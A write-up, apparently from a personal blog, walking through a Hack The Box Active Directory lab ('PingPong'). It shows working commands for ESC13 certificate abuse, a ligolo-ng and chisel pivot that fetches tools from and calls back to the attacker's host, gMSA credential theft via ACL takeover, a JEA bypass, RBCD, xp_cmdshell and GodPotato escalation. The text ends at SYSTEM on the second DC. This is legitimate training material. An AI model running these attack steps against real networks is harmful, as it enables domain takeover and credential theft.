






<%
	meta("../../meta.json")
	meta()
	const path = require('path');
	require(path.resolve(path.dirname(inputPath), "../../_partials/hljs-terminal.js"));
	url = url + "/posts/" + path.basename(path.dirname(outputPath)) + "/";
	const _allPosts = metas("../../posts").filter(p => p.meta.published);
	_allPosts.sort((a, b) => b.meta.date.localeCompare(a.meta.date));
	const _mySlug = path.basename(path.dirname(outputPath));
	const _myIdx = _allPosts.findIndex(p => p.directory === _mySlug);
	const prevPost = _myIdx < _allPosts.length - 1 ? _allPosts[_myIdx + 1] : null;
	const nextPost = _myIdx > 0 ? _allPosts[_myIdx - 1] : null;
%>
<%= render("../../_partials/post-header.html", { title, image, url, description, caption, date, tags, reading_time }) %>

PingPong is an Insane Windows Active Directory box built around a cross-forest trust. It starts from assumed-breach creds for c.roberts on `ping.htb`, and an ESC13 issuance-policy abuse on a certificate template gives WinRM on the domain controller, DC1. DC1 turns out to be dual-homed onto a second, internal Hyper-V network that a second forest, `pong.htb`, lives on. Pivoting in with ligolo-ng and enumerating both forests across the trust turns up a group, `gMSA Managers`, that c.roberts can take over by ownership alone, which hands over a gMSA's credentials. Those lead through a JEA command-visibility bypass to a leaked plaintext password, then RBCD and `xp_cmdshell` on the second domain controller, DC2, and GodPotato for SYSTEM there. SYSTEM on a real DC is enough to grant yourself DCSync, and DCSync hands over the one real (not forged) cross-forest bridge back into `ping.htb`: a foreign security principal sitting in a group with write access to a certificate template. That's an ESC4-to-ESC1 flip, and a PKINIT certificate request for `administrator@ping.htb` finishes the domain.

## Recon

### nmap

```terminal
❯ sudo nmap -Pn -sV -sC 10.129.245.56
Nmap scan report for dc1.ping.htb (10.129.245.56)
Host is up (0.76s latency).
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: ping.htb)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: ping.htb)
2179/tcp open  vmrdp?
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: ping.htb)
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: ping.htb)
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Service Info: Host: DC1; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time:
|_  date: 2026-11-15T20:08:19
|_clock-skew: 14m51s
```

The domain is `ping.htb`, the host is DC1, and port 2179 (`vmrdp`) means Hyper-V is installed on this box, which matters a lot later. The clock is also off, which only gets worse once I start generating Kerberos tickets, so I fix it and the hosts file up front:

```terminal
❯ sudo ntpdate -u 10.129.245.56
❯ echo "10.129.245.56  ping.htb dc1.ping.htb DC1" | sudo tee -a /etc/hosts
```

*Gotcha: the drift isn't constant. On this run it was 14 minutes at the first scan but had drifted to almost 8 hours by the time I came back to it later, and a long session can still push it past Kerberos's 5-minute default tolerance mid-engagement. Any `KRB_AP_ERR_SKEW` later in this writeup, however unrelated it looks, means re-running `ntpdate` before touching the actual problem.*

This is also a cross-forest box, `ping.htb` trusts `pong.htb`, so from the start I keep a `krb5.conf` that knows about both realms, rather than discovering that need later and redoing every ticket:

```terminal
[libdefaults]
    default_realm = PING.HTB
    dns_lookup_realm = false
    dns_lookup_kdc = false
    forwardable = true

[realms]
    PING.HTB = {
        kdc = dc1.ping.htb
        admin_server = dc1.ping.htb
    }
    PONG.HTB = {
        kdc = dc2.pong.htb
        admin_server = dc2.pong.htb
    }

[domain_realm]
    .ping.htb = PING.HTB
    ping.htb = PING.HTB
    .pong.htb = PONG.HTB
    pong.htb = PONG.HTB
```

```terminal
❯ export KRB5_CONFIG=/home/kali/pingpong/krb5.conf
```

### Assumed-breach creds

HTB provides a starting account, c.roberts. A plain TGT confirms the credentials work:

```terminal
❯ impacket-getTGT 'ping.htb/c.roberts:<assumed-breach password>' -dc-ip 10.129.245.56
[*] Saving ticket in c.roberts.ccache
```

That ticket proves identity and carries c.roberts's real group memberships, nothing more. It doesn't get WinRM access on its own; `nxc winrm` with it fails.

## ESC13 to WinRM on DC1

`certipy-ad find -vulnerable` with the password directly gets rejected by LDAP (`invalidCredentials`), even though the password is correct, because this DC doesn't like raw username/password binds at that door. Reusing the TGT instead, and telling `certipy-ad` which DC it's talking to, works:

```terminal
❯ export KRB5CCNAME=c.roberts.ccache
❯ certipy-ad find -u 'c.roberts@ping.htb' -k -no-pass -dc-ip 10.129.245.56 \
    -target dc1.ping.htb -vulnerable -stdout
...
Certificate Templates
  0
    Template Name                       : TemporaryWinRM
    Display Name                        : Temporary WinRM
    Client Authentication               : True
    Enrollee Supplies Subject           : False
    Issuance Policies                   : 1.3.6.1.4.1.311.21.8.5808481...
    Linked Groups                       : CN=TempWinRMAccess,CN=Users,DC=ping,DC=htb
    [+] User Enrollable Principals      : PING.HTB\Domain Users
    [!] Vulnerabilities
      ESC13                             : Template allows client authentication and issuance policy is
                                           linked to group 'CN=TempWinRMAccess,CN=Users,DC=ping,DC=htb'.
```

ESC13 is a certificate template whose issuance policy is linked to a group through an OID extension. Enrolling in the template and authenticating with the resulting certificate gets a Kerberos PAC carrying membership in that linked group, `TempWinRMAccess`, regardless of whether c.roberts is actually in it. `TempWinRMAccess` happens to be exactly the group DC1's WinRM service checks for, which is the whole reason a plain password-based TGT was never going to get a shell here.



Requesting a certificate from the template needs a bit of fixing: the default RPC transport tries a dynamic endpoint-mapper port and times out, so I pin it to the named-pipe transport with `-dc-host` and `-target-ip` together:

```terminal
❯ certipy-ad req -u 'c.roberts@ping.htb' -k -no-pass -ca ping-DC1-CA -template TemporaryWinRM \
    -dc-ip 10.129.245.56 -dc-host dc1.ping.htb -target dc1.ping.htb -target-ip 10.129.245.56 \
    -out c_roberts_esc13
[*] Requesting certificate via RPC
[*] Got certificate with UPN 'C.Roberts@ping.htb'
[*] Certificate object SID is 'S-1-5-21-750635624-2058721901-1932338391-2617'
[*] Wrote certificate and private key to 'c_roberts_esc13.pfx'
```

`certipy-ad auth` trades that certificate for a real TGT over PKINIT, and the PAC inside it now carries `TempWinRMAccess`:

```terminal
❯ certipy-ad auth -pfx c_roberts_esc13.pfx -dc-ip 10.129.245.56
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'c.roberts.ccache'
[*] Got hash for 'c.roberts@ping.htb': aad3b435b51404eeaad3b435b51404ee:<redacted>
```

`evil-winrm` needs `KRB5_CONFIG` and `KRB5CCNAME` pointed at this ticket, since it uses the system GSSAPI/Kerberos library rather than its own crypto:

```terminal
❯ export KRB5CCNAME=c.roberts.ccache
❯ evil-winrm -i dc1.ping.htb -r ping.htb
*Evil-WinRM* PS C:\Users\C.Roberts\Documents> whoami
ping\c.roberts
```

*Gotcha: `evil-winrm` has no real one-liner flag for running a single non-interactive command against a Kerberos session; its own `-c`/help text for that doesn't apply here. Every remote command in the rest of this box goes in as a line piped into its stdin, not as an argument.*

## Finding the second forest

Inside the WinRM session, `C:\Users` has a folder for `Pong_gMSA$`, an account this session has never heard of. A gMSA only exists inside a specific domain, and this one's name is a strong hint there's a second domain called something like `pong`, matching the box's own name:

```terminal
*Evil-WinRM* PS C:\Users\C.Roberts\Documents> dir C:\Users

    Directory: C:\Users

Mode      LastWriteTime   Name
----      -------------   ----
d-----    ...             C.Roberts
d-----    ...             Pong_gMSA$
```

`ipconfig`-style checks on DC1 show the vmrdp port from the nmap scan was Hyper-V after all: besides the HTB-routable interface, DC1 sits on a second, internal virtual switch at `192.168.2.0/24`. A single-port SMB probe from inside DC1 confirms something real is alive on it:

```terminal
*Evil-WinRM* PS C:\Users\C.Roberts\Documents> Test-NetConnection -ComputerName 192.168.2.2 -Port 445

ComputerName     : 192.168.2.2
RemotePort       : 445
TcpTestSucceeded : True
```

Port 445 (SMB) being open is close to proof that 192.168.2.2 is a live Windows box, and a reasonable candidate for a domain controller. It isn't reachable directly from my attack box, only from inside DC1, so the next step is a pivot.

## Pivoting into 192.168.2.0/24

`chisel` gets a reverse SOCKS5 proxy working first, but needs `proxychains` wrapping every tool, and getting it onto DC1 at all has its own edge cases. The two binaries have to match versions exactly or the client silently fails to negotiate with the server. `evil-winrm`'s own interactive upload command stalls indefinitely on the ~10MB binary (0 bytes/sec on the tunnel for 15+ minutes), so it's faster to serve it from a local `python3 -m http.server` and pull it down instead; `Invoke-WebRequest` without disabling its progress bar then corrupts the download mid-transfer, because rendering the progress bar during a long pull is enough to stall the WinRM session itself:

```terminal
*Evil-WinRM* PS> $ProgressPreference = "SilentlyContinue"
*Evil-WinRM* PS> Invoke-WebRequest http://10.10.16.135:8000/chisel.exe -OutFile chisel.exe
```

```terminal
❯ chisel server -p 8888 --reverse
```

```terminal
*Evil-WinRM* PS> Start-Process .\chisel.exe -ArgumentList "client http://10.10.16.135:8888 R:socks" -WindowStyle Hidden
```

Through that SOCKS proxy, `proxychains4 nmap -sT` reports every port on 192.168.2.2 as filtered, which looks like the pivot doesn't actually work. It does; `nmap`'s `-sT` state machine expects a real RST on a closed port, and SOCKS never forwards one, so a plain connect test is the right tool to trust here instead:

```terminal
❯ proxychains4 -q -f pc.conf curl -v --connect-timeout 8 telnet://192.168.2.2:445
```

`ligolo-ng` is a real routed tunnel over a TUN interface instead of a SOCKS proxy, so once the route is added any tool talks to the internal range directly with no wrapping at all:

```terminal
❯ sudo ligolo-proxy -selfcert
❯ sudo ip tuntap add user kali mode tun ligolo
❯ sudo ip link set ligolo up
```

```terminal
*Evil-WinRM* PS> Start-Process C:\Windows\Temp\agent.exe `
    -ArgumentList "-connect 10.10.16.135:11601 -ignore-cert" -WindowStyle Hidden
```

```terminal
ligolo-ng » session
? Specify a session : 1 - PING\C.Roberts@dc1 - 10.129.245.56:50679
[Agent : PING\C.Roberts@dc1] » start --tun ligolo
```

```terminal
❯ sudo ip route add 192.168.2.0/24 dev ligolo
❯ nc -zv -w5 192.168.2.2 445
Connection to 192.168.2.2 445 port [tcp/microsoft-ds] succeeded!
```



Both binary versions (agent/proxy) have to match exactly or the handshake fails silently, and `ligolo-proxy` needs a genuinely interactive terminal, not a piped one, since its console is itself a readline loop that exits the moment stdin hits EOF.

## Cross-realm enumeration and the CA Managers group

`c.roberts` only exists in `ping.htb`. Reaching `pong.htb` means using the forest trust: ask `ping.htb`'s own KDC for a referral ticket to `krbtgt/PONG.HTB`, then redeem that referral against `pong.htb`'s KDC for a real service ticket. `bloodhound-python` doesn't know this dance, it always tries to mint a fresh TGT directly in whatever domain you point it at, so it fails against `pong.htb` with `KDC_ERR_C_PRINCIPAL_UNKNOWN`. The referral has to be built by hand with impacket:

```terminal
❯ python3 -c "
from impacket.krb5.ccache import CCache
from impacket.krb5.kerberosv5 import getKerberosTGS
from impacket.krb5.types import Principal

ccache = CCache.loadFile('c.roberts.ccache')
creds = ccache.getCredential('krbtgt/PING.HTB@PING.HTB')
TGT = creds.toTGT()

referralName = Principal('krbtgt/PONG.HTB', type=2)
refTGS, cipher1, oldKey1, sessKey1 = getKerberosTGS(
    referralName, 'PING.HTB', 'dc1.ping.htb', TGT['KDC_REP'], TGT['cipher'], TGT['sessionKey'])

serverName = Principal('ldap/dc2.pong.htb', type=2)
tgs, cipher2, oldSessionKey, sessionKey2 = getKerberosTGS(
    serverName, 'PONG.HTB', 'dc2.pong.htb', refTGS, cipher1, sessKey1)

ccache2 = CCache()
ccache2.fromTGS(tgs, oldSessionKey, sessionKey2)
ccache2.saveFile('c.roberts_pong_ldap.ccache')
"
```

A full BloodHound collection against `ping.htb` works fine with the plain ticket, and it's that graph (229 nodes) that gets ingested into BloodHound CE. Enumerating `ping.htb`'s custom groups with `bloodyAD` turns up `CA Managers`, which matters because its members can edit certificate templates:

```terminal
❯ bloodyAD --host dc1.ping.htb -d ping.htb -u c.roberts -k --dc-ip 10.129.245.56 \
    get search --filter "(sAMAccountName=CA Managers)" --attr member

distinguishedName: CN=CA Managers,CN=Users,DC=ping,DC=htb
member: CN=S-1-5-21-2410575906-3092493790-2123333151-1124,CN=ForeignSecurityPrincipals,DC=ping,DC=htb;
        CN=P.Paul,CN=Users,DC=ping,DC=htb; CN=M.Wallace,CN=Users,DC=ping,DC=htb
```

Two members resolve to normal `ping.htb` accounts. The third comes back as a bare SID under `CN=ForeignSecurityPrincipals`, the container AD uses for a placeholder object representing an account from a trusted outside domain. A direct LSA RPC call (not `bloodyAD`, which doesn't resolve a foreign SID correctly here) against `dc2.pong.htb`'s own LSA policy resolves it:

```terminal
# impacket's lsat/lsad modules, over the lsarpc named pipe against dc2.pong.htb
resp = lsat.hLsarLookupSids(dce, policyHandle, [sid], lsat.LSAP_LOOKUP_LEVEL.LsapLookupWksta)
# -> pong\R.Martinelli
```

That SID belongs to `pong\R.Martinelli`, a real account in the other forest. BloodHound's own graph shows the same thing visually: two solid, resolved `ping.htb` users on `CA Managers`, and a plain "?" node for the one it never collected data on, since the collection only ran against `ping.htb`:



This is the eventual bridge back into `ping.htb`, but I don't have any way to use it yet. I keep going on `pong.htb`'s own side first.

## Taking over gMSA Managers for Pong_gMSA$'s credentials

`Pong_gMSA$` is a group-managed service account: its password rotates automatically, and only principals listed on its `msDS-GroupMSAMembership` attribute can read it:

```terminal
❯ export KRB5CCNAME=c.roberts_pong_ldap.ccache
❯ bloodyAD --host dc2.pong.htb -d pong.htb -k --dc-ip 192.168.2.2 \
    get object 'Pong_gMSA$' --attr msDS-GroupMSAMembership

msDS-GroupMSAMembership: O:S-1-5-32-544D:(A;;0xf01ff;;;S-1-5-21-2410575906-3092493790-2123333151-1104)
```

RID 1104 resolves to a group, `gMSA Managers`, in `pong.htb`. c.roberts isn't a member. But `gMSA Managers`' own security descriptor names its owner as a SID ending in `...2618`, and BloodHound's own graph (populated from the successful `ping.htb` collection) resolves that straight to `IT@PING.HTB` — a group c.roberts is confirmed to be a real member of over plain LDAP:

```terminal
❯ bloodyAD --host dc2.pong.htb -d pong.htb -u c.roberts -k --dc-ip 192.168.2.2 \
    get object "gMSA Managers" --attr nTSecurityDescriptor
# Owner SID: S-1-5-21-750635624-2058721901-1932338391-2618  (IT@PING.HTB)

❯ bloodyAD --host dc1.ping.htb -d ping.htb -u c.roberts -k --dc-ip 10.129.245.56 \
    get search --filter "(sAMAccountName=IT)" --attr member,objectSid
# member includes CN=C.Roberts,CN=Users,DC=ping,DC=htb
```

Owning an AD object implicitly grants the right to rewrite its DACL, even with no ACE explicitly saying so. c.roberts, via IT's ownership of `gMSA Managers`, can grant itself full control:

```terminal
❯ bloodyAD --host dc2.pong.htb -d PONG.HTB -i 192.168.2.2 -k \
    add genericAll 'gMSA Managers' S-1-5-21-750635624-2058721901-1932338391-2617
```

The plain name `c.roberts` has to be the SID here, since `bloodyAD` tries to resolve a trustee name inside the target domain (`pong.htb`) by default, and c.roberts doesn't exist there.

Having control isn't enough to join the group, though. Group scope decides who can be a member: Global groups never take cross-domain members, Universal groups take same-forest cross-domain members but reject a foreign security principal from a trusted *external* forest (`ERROR_DS_NO_FPO_IN_UNIVERSAL_GROUPS`, which is exactly what my first attempt hit), and only Domain Local groups accept a foreign principal from a trusted forest:

```terminal
❯ bloodyAD --host dc2.pong.htb -d PONG.HTB -i 192.168.2.2 -k \
    set object 'gMSA Managers' groupType -v -2147483644
❯ bloodyAD --host dc2.pong.htb -d PONG.HTB -i 192.168.2.2 -k \
    add groupMember 'gMSA Managers' S-1-5-21-750635624-2058721901-1932338391-2617
❯ bloodyAD --host dc2.pong.htb -d PONG.HTB -i 192.168.2.2 -k \
    get object 'Pong_gMSA$' --attr msDS-ManagedPassword

msDS-ManagedPassword.B64ENCODED: <blob>
```

The managed password comes back as an `MSDS-MANAGEDPASSWORD_BLOB` structure, and this domain only accepts AES-based Kerberos logins for this account, so the raw NTLM hash alone isn't enough. Deriving the AES key from the blob directly with the standard string-to-key function fails every time with `PREAUTH_FAILED`, even with the correct salt (confirmed by reading the KDC's own `PA-ETYPE-INFO2` error field) and an RFC-3962-verified implementation. The fix, found by reading `gMSADumper.py`'s source rather than guessing further: the raw password bytes have to be decoded as UTF-16LE text first, then re-encoded as UTF-8, and *that* byte string is the real input to string-to-key:

```terminal
current_password = blob['CurrentPassword'][:-2]
password_material = current_password.decode('utf-16-le', 'replace').encode('utf-8')
key = string_to_key(Enctype.AES256, password_material, b'PONG.HTBhostpong_gmsa.pong.htb')
```

With that key, `impacket-getTGT -aesKey` gets a real ticket for `Pong_gMSA$@PONG.HTB` on the first try.



## A JEA bypass and a leaked password

`Pong_gMSA$` is a `pong.htb` account, but the next target, a restricted WinRM endpoint, lives back on DC1 in `ping.htb`. Reaching it with a tool that relies on the OS's own GSSAPI stack (not a Python library doing its own crypto) needs four separate fixes together, and missing any one of them produces a different, unrelated-looking GSSAPI error: a `[capaths]` block in `krb5.conf` so MIT Kerberos follows the cross-realm referral automatically, the right SPN (`WSMAN/dc1.ping.htb`, confirmed by reading DC1's own `servicePrincipalName` attribute, not `http/...`), a genuine MIT-standard ccache built with a real `kinit -k -t <keytab>` (real GSSAPI tools reject a hand-built impacket ccache even though `klist` reads it fine), and the right alias order in `/etc/hosts` (GSSAPI picks the *first* alias listed for an IP when building its SPN, so `ping.htb dc1.ping.htb` in that order silently targets `WSMAN/ping.htb` instead).

*Gotcha: `pypsrp` exposes a `negotiate_hostname_override` kwarg that looks like a shortcut around the `/etc/hosts` ordering problem. It does nothing with `auth='kerberos'`, only with `auth='negotiate'` (confirmed by reading `pypsrp`'s own `wsman.py`), so the alias order has to be fixed at the OS level instead.*

```terminal
❯ ktutil
ktutil:  addent -key -p Pong_gMSA$@PONG.HTB -k 1 -e aes256-cts-hmac-sha1-96
Key for Pong_gMSA$@PONG.HTB: <paste the AES256 key>
ktutil:  wkt pong_gmsa.keytab
ktutil:  quit

❯ export KRB5CCNAME=real_kinit.ccache
❯ kinit -k -t pong_gmsa.keytab 'Pong_gMSA$@PONG.HTB'
```

A small `pypsrp` helper opens that connection over WinRM:

```terminal
with WSMan("dc1.ping.htb", auth="kerberos", ssl=False, port=5985) as wsman:
    with RunspacePool(wsman) as pool:
        ps = PowerShell(pool)
        ps.add_script(script_text)
        ps.invoke()
```

What comes back isn't a normal shell, it's a JEA (Just Enough Administration) endpoint named `restricted`, exposing only a tiny named allowlist of commands and running in ConstrainedLanguage mode. My first idea, an XXE read via `[xml]` and a `SYSTEM file://` entity, fails live: the external entity is silently dropped, and the standard fix of setting a custom `XmlResolver` is itself blocked ("Only core types are supported in this language mode"). A bare `powershell.exe` call is also rejected outright, confirming the visible-command list is empty.

What actually works is wrapping that same call inside a script block for the call operator:

```terminal
& { powershell.exe -NoProfile -NonInteractive -Command "whoami" }
```

JEA's command-visibility filter is evidently enforced at the point a bare command name is resolved by the parser, not once that call is nested inside `& { }`. That one syntax difference spawns a brand-new, completely unrestricted PowerShell process, and ConstrainedLanguage only ever applied to the JEA session itself, not to whatever it can spawn outside it. Through that bypass, reading `ConsoleHost_history.txt`, PowerShell's own plaintext command-history log, turns up a leftover line where someone built a credential object with a real password typed directly on the command line:

```terminal
& { powershell.exe -NoProfile -NonInteractive -Command "Get-Content 'C:\Users\Pong_gMSA$\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt'" }
```

```terminal
pong\c.carlssen : <redacted>
```



A `getTGT` against `dc2.pong.htb` with that password confirms it's real.

## RBCD, S4U, and GodPotato on DC2

Resource-based constrained delegation lets the *target* object's owner decide who can impersonate users against it, by writing `msDS-AllowedToActOnBehalfOfOtherIdentity` on the target itself. c.carlssen can write that attribute on `svc_sql`:

```terminal
❯ export KRB5CCNAME=c.carlssen.ccache
❯ bloodyAD -H dc2.pong.htb -d PONG.HTB -k -i 192.168.2.2 add rbcd svc_sql "Pong_gMSA\$"
```

`svc_sql` now accepts impersonation requests that come from `Pong_gMSA$`. `S4U2Self` then `S4U2Proxy` gets a service ticket impersonating a user onto `svc_sql`'s SPN. Impersonating `Administrator` directly fails with `KDC_ERR_BADOPTION`, a protected account refusing this kind of delegation; an ordinary user, c.adam, has no such protection:

```terminal
❯ impacket-getST -spn 'mssqlsvc/dc2.pong.htb' -impersonate c.adam -k -no-pass \
    -aesKey <Pong_gMSA$ AES key> 'PONG.HTB/Pong_gMSA$' -dc-ip 192.168.2.2
```

Kerberos only proves identity, not SQL-level rights. Once authenticated, SQL Server looks the Windows identity up in its own login table, and c.adam happens to be mapped to a login in the `sysadmin` role, where another account, M.Sun, only falls back to `guest`:

```terminal
❯ export KRB5CCNAME='C.Adam@mssqlsvc_dc2.pong.htb@PONG.HTB.ccache'
❯ impacket-mssqlclient -k -no-pass dc2.pong.htb
SQL (pong\C.Adam  dbo@master)> xp_cmdshell whoami
pong\svc_sql
```

Command execution lands as the SQL service account, not as c.adam. `svc_sql` carries `SeImpersonatePrivilege`, which GodPotato abuses: it coerces a SYSTEM-owned COM object into authenticating to a listener it controls, captures the token, and spawns a new process as SYSTEM:

```terminal
SQL> xp_cmdshell powershell -c "C:\Windows\Temp\GodPotato.exe -cmd whoami"
CurrentUser: NT AUTHORITY\NETWORK SERVICE
Find System Token: True
CurrentUser: NT AUTHORITY\SYSTEM
```

